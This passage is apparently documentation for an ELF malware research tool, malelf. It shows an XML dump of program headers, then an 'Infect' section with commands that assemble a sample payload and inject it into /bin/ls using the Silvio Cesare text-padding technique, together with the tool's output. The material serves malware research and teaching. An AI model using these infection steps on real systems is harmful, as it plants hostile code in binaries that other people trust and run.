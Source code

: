 	    <memsz>0</memsz>
	    <flags>6</flags>
	    <align>4</align>
	  </MalelfPhdr>
	  <MalelfPhdr>
	    <type>1685382482</type>
	    <offset>0x000e0ee4</offset>
	    <vaddr>0x08129ee4</vaddr>
	    <paddr>0x08129ee4</paddr>
	    <filesz>284</filesz>
	    <memsz>284</memsz>
	    <flags>4</flags>
	    <align>1</align>
	  </MalelfPhdr>
	</MalelfBinary>


Infect
=========

This feature isn't black magic, anyone with basic knowledge of ELF internals
can do this by yourself. There are many techniques that can be used to infect
ELF binaries, but the malelficus has only one implemented for now, the
silvio cesare text-padding.

To infect a ELF binary with this technique and malelf is very simple, but
first we need the malware payload (or shellcode). Because of legal issues
we cannot share our dataset of unix malwares for sample, but among with the
project has a sample directory with basic assembly files that you can rely
on it.

First we need the malware payload assembled, for this example let's use the
samples/message32.asm

    $ cd samples/
    $ nasm -f bin message32.asm -o message32.bin

For now, you can infect your /bin/ls with the following command:

    $ malelf infect -h
    This command is used to assist in the process of binary infection.
    Usage: malelf infect <options>
    -h, --help    		Infect Help
    -i, --input   		Input host file
    -o, --output  		Output infected file
    -m, --malware 		FLAT binary malware.
    -f, --offset-return	Offset in shellcode to patch the host entrypoint
    -a, --auto-shellcode	Automatically patch shellcode with host entrypoint
    -t, --technique  	Technique to infect.
    -l, --list       	List techniques.
    Example: malelf infect -i /bin/ls -o myls -m evil.bin -t 'silvio-text-padding'

    $ malelf infect -i /bin/ls -o ./myls -m ./message32.bin -t silvio-text-padding -a
    [+] Infecting by silvio cesare technique (text-padding)
    [+] binary input: '/bin/ls', size: 112700 bytes
    [+] binary output: './myls'
    [+] malware payload: './message32.bin', size: 48 bytes

